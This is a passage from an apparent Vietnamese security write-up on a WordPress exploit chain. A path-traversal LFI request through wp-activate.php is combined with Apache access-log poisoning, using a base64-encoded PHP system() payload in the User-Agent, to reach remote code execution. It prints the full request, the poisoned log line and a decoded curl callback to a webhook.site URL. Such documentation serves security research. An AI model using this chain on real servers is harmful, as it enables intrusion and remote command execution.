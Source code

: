 #### Step 2

Gửi request với LFI payload trỏ đến `/var/log/apache2/other_vhosts_access.log`

```http
GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/var/log/apache2/other_vhosts_access.log? HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```

**Result**:

{{< figure src="result2.png" caption="Kết quả LFI => RCE thành công" >}}

**Giải thích**:

```phtml
<?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?>
```

Khi truy cập trang với User‑Agent chứa payload trên, Apache sẽ lưu payload này vào access log:

```sh
w41bu1@22NS088:~$ cat /var/log/apache2/other_vhosts_access.log
127.0.1.1:80 127.0.0.1 - - [18/Oct/2025:19:10:08 +0700] "GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/var/log/apache2/other_vhosts_access.log? HTTP/1.1" 403 2844 "-" "Mozilla/5.0 (X11; Ubuntu; <?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?>Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0"
```

Khi `include()` một file, PHP sẽ thực thi mọi mã PHP (`<?php ?>`) có trong nội dung file trước khi trả về. Payload được mã hoá bằng Base64 và giải mã tại thời điểm include bằng `base64_decode` tránh lỗi escape dấu ngoặc kép (`"` → `\"`) khi logger lưu. Lệnh giải mã sẽ trở thành:

```sh
curl -I 'https://webhook.site/bac7e163-b475-4323-a315-acd010359640'
```

Cuối cùng `system()` sẽ chạy lệnh này và trả output. 

> [!WARNING]
> Lưu ý: dù `base64_decode` bị chặn bởi plugin nhưng Apache đã lưu trữ trước khi plugin xử lý, chuỗi Base64 vẫn được ghi vào log.
